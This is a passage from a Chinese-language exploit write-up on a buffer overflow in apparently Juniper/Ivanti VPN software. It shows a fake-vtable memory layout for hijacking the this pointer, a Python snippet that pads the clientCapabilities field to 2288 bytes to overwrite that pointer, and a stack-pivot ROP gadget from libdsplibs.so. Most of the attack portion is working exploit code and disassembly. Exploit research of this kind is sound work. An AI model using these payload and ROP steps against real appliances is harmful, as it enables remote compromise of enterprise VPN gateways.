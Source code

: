 有了方向之后我们就是构造一个三级指针来覆盖this指针，三级指针的具体构造如下  
```
Memory Layout:

+--------------------------+
| *fake_this Pointer       |
+--------------------------+
       |
       v
+--------------------------+
| fake_vtable Address      | <- Points to the vtable
+--------------------------+
       |
       v
+--------------------------+
| fake vtable              |
+--------------------------+
| *gadget_0[0x48]          | <- Points to a sequence of x86 instructions
+--------------------------+
       |
       v
+--------------------------+
| gadget_0[0x48]           |
+--------------------------+
=                          | <- Return to caller
+--------------------------+

```  
  
有了理论我们先进行测试一下，从下方调试的过程可以看到我们的计划成功了。  
```
ift_hdr_array = make_ift_hdr(VENDOR_JUNIPER, 0x88)
fake_this = 'B' * 4
data = 'clientHostName=ubuntu '
data += 'clientIp=' + get_real_local_ip() + ' '
data += 'clientCapabilities='
data += get_real_local_ip().ljust(2288, 'A') + fake_this
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWeGpTFicJgg9eiaBrEsNHiapHicfrW4Jb1BpgkNyprvaZb9PUojCbsFUFEtw/640?wx_fmt=png&from=appmsg "")  
  
  
在ROP之前我们还有做一件事情，那就是抬栈，此时距离我们布局的内存还有一段距离，因此我们要找一个抬栈的指令，根据watchtowr  
和Swing  
的做法在libdsplibs.so会找到一段合适的指令。  
```
.text:0093849C BB F0 FF FF FF                    mov     ebx, 0FFFFFFF0h
.text:009384A1                   
.text:009384A1                   loc_9384A1:                             
.text:009384A1                                                           
.text:009384A1 81 C4 4C 20 00 00                 add     esp, 204Ch
.text:009384A7 89 D8                             mov     eax, ebx
.text:009384A9 5B                                pop     ebx
.text:009384AA 5E                                pop     esi
.text:009384AB 5F                                pop     edi
.text:009384AC 5D                                pop     ebp
.text:009384AD C3                                retn
```  
  